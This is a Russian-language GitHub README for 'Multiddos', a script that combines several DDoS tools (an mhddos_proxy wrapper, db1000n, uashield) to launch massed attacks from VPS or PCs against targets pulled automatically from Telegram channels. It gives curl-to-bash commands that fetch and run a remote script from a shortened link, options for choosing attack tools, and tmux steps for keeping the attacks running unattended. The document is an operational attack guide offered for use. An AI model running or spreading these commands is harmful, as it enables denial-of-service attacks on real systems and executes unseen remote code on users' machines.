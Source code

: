 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать именно этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше. 

## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.

## Запуск в фоне
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но без автоматического подключения к сессии Tmux. То есть программы будут запущены как обычно, но не будут выведены на экран. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.
 
</details>

## Выбор режима


<details>
  <summary>развернуть</summary>
  

В программе доступно 3 утилиты: multiddos, db1000n и uashield. По умолчанию (если запускать без параметров) запускается multiddos + db1000n. 

Если использовать параметры, то по multiddos запускается в любом случае, а остальные утилиты можно подключать.

* `-d` или `--db1000n` подключает db1000n (этот режим используется по умолчанию)
```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -d && tmux a
```

* `-u` или `--uashield` подключает uashield

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -u && tmux a
```

* `-m` или `--matrix` подключает эффект матрицы в небольшом окне. Был добавлен в режиме тестирования, позже решили оставить как опцию.

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m && tmux a
```
* Комбинация вариантов для запуска всех трех утилит и матрицы

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -d -u -m && tmux a
```

</details>

## Решение проблем
<details>
  <summary>развернуть</summary>
 
Скрипт может не дружить с запуском на виртуалке, или даже на обычном ПК, подключенном к Интернету через Wi-Fi. Возможны глюки сетевого адаптера. Вероятно большое кол-во сетевых пакетов перегружает некоторое сетевое оборудование. Ошибки вылазят самые разнообразные. Пробуйте перезагрузить систему и запустить снова.

На vps и ПК подключенных через Ethernet такие проблемы как правило не наблюдаются.
 
</details>